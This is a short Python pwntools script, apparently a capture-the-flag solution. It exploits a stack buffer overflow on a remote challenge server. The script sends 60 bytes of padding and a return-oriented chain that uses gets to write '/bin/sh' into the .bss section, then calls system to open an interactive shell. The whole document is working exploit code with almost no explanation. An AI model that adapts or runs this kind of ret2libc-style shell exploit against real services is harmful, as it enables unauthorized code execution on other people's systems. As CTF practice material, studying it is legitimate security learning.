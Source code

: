 ```python
from pwn import *

# Function addresses
gets = p32(0x8048400)
vuln = p32(0x080485b1)
system = p32(0x08048420)

p = remote("thekidofarcrania.com", 4902)
# Stage 1
padding = b"\x41" * 60
p.recv()
bss = p32(0x0804a080)
p.sendline(padding + gets + vuln + bss)
# send /bin/sh
p.sendline(b"/bin/sh")

# Stage 2 -> call system
p.sendline(padding + system + p32(0xdeadc0de) + bss) # 0xdeadc0de is a return address which doesnt matter

p.interactive()
```
